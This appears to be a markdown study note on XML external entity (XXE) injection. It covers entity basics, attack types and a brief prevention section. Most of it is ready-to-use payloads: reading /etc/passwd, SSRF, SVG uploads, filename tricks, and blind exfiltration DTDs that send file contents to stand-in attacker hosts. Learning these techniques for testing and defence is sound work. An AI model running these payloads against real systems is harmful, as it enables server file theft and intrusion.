 # XML external entity (XXE) injection

## What is XML external entity injection?
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

Uses XML data processing by a server to execute attacks against a server.  Can allow an attacker to:

- Read files on the server;
- Compromise the server; or
- Execute SSRF attacks.

Attacks occur when applications use XML to transmit data and do not disable potentially dangerous processing of XML entities.

- This type was more prevelant before JSON became the dominant data transfer format, but it is still sometimes exploitable.

## XML refresher

- `XML entities`: represent special characters in XML documents such as `&amp;`, `&gt;` and `&lt;`.
- `Document type definition (DTD)`: defines the structure of an XML document.  DTD is defined using a `DOCTYPE` tag.
- `XML custom entity`: define a custom entity in a DTD: `<!DOCTYPE foo [ <!ENTITY bar "bambaz" > ]>` which will cause `&bar;` to be replaced with the value `bambaz`.
- `XML external entity`: define an external entity in a DTD using the `SYSTEM` keyword.  They can be referenced from a local file or URL: 
```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Most XXE attacks are caused by XML external entities.

## XXE attacks

- `Retrieve file contents`: 
```xml
<!-- Return the contents of `/etc/passwd` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
- `Perform SSRF attack`: 
```xml
<!-- Return contents of `http://internal-website.com` -->
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://internal-website.com" > ]>
```
- `Blind XXE to exfiltrate data`: 
```xml
<!-- Cause the contents of `/etc/passwd` to be send to http://evil-corp.com -->
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://evil-corp.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```
- `Blind XXE to retrieve data via error messages`: attacker triggers an XML parsing error that leaks sensitive data.

- When testing for XXE vulnerabilities, you will often need to test each node of the XML document to see if it is vulnerable.

### Retrieve file contents

Attacker must introduce or edit the DOCTYPE.  For example, an XML request that gets stock levels:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>

<!-- Alter to include a doctype that references a local file with a new `&xxe;` entity -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Perform SSRF attack

Induce the application to make a request and return the resonse from an internal system:

```xml
<!-- 
Reponse will include response from http://internal.vulnerable-website.com/ if output is displayed to the user
Otherwise, this is a blind XXE attack
-->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### XXE via file upload

If an application allows XML to be uploaded.  This can include SVG files, which are XML.  For example, an SVG file that displays a message:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="0" y="15" fill="red">&xxe;</text>
</svg>
```

It may also be possible to cause the server to accept an SVG file even if it only accepts PNG or JGP image types by changing the file extension:
```sh
# null byte and semicolon termination
malicious.svg%00.jpg
malicious.svg;.jpg`
```

### XXE via modified content type

Although an application may expect to receive request payloads in a specific type, it may be tolerant of XML payloads:

```http
# Expected format
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

# Tolerates XML instead, at which point, XXE attacks can be attempted
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

### Blind XXE

Detect blind XXE by:

- using out-of-band testing; or
- triggering XML parsing errors.

#### Out-of-band testing (OAST)

The following will make a very specific request to a server controlled by the attacker which will be seen in the logs:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

It may be possible to bypass XML parsing hardening using parameter entities as well:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

#### Exfiltrating data using blind XXE

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

They can then submit the following XML payload to a vulnerable application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

- this type of attack may be blocked by responses that contain newline characters.  Sometimes this can be bypassed using the FTP protocol rather than HTTP.

#### Retrieving data via XML parsing errors

Attacker defines a malicious DTD hosted at `http://web-attacker.com/malicious.dtd`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Submitting the following to a vulnerable application will cause an XML error that leaks the contents of `/etc/passwd`:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

#### Reporposing a local DTD

If external entity resolution is disabled, you may be able to redefine a custom entity within a local DTD on the target system.

1. Find a suitable local DTD file by searching for `*.dtd` files:

```xml
# This will issue an error if the local DTD does not exist
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
%local_dtd;
]>
```

2. Redefine a custom entity within the local DTD:

```dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## Finding XXE injection vulnerabilities

- `Requests contain XML data`: these are obvious vectors for XXE attacks.
- `XInclude attacks`: occur when the application includes your request in another XML document.  Since you do not control the entire document, a new `DOCTYPE` cannot be added.  However, `XInclude` still allows for XXE:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- `File retrieval`: test for well known OS file retrieval such as `/etc/passwd` or `/etc/hosts`.
- `Blind XXE to trigger SSRF`: send requests to systems you control and watch for requests in the logs.

## Prevent

- Disable as many XML processing features as possible.
- Usually disabling external entity resolution and `XInclude` is enough.
